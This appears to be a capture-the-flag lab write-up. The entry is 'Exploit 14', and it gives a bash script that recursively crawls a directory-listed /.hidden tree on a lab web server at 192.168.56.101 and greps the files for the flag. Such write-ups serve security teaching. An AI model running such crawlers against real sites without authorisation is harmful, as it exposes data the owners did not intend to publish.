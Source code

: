 # Exploit 14 - nested directories

Under `/.hidden` there is a large file tree with txt files in each directory.
It looks like admin wanted to hide something inside.

As the filetree is very large, we need a script to automatically crawl its content
for the flag.

Here's such a script, that recursively crawl the filetree:

```bash
crawl()
{
    curl -s -X GET "$1" \
        | sed -n 's/.*href="\([^"]*\).*/\1/p' \
        | grep -v "^\.\." \
        | while read line; do
            echo -n "." >&2
            if [[ $line == *"/"* ]]; then
                crawl "$1$line"
            else
                # echo "Trying $1$line"
                # xargs should exit with failure if the string is not found
                curl -s -X GET "$1$line"
            fi
          done
}

crawl "http://192.168.56.101/.hidden/" \
    | grep "flag" \
    | head -1 \
    | xargs -I {} echo -e "\n{}"
```
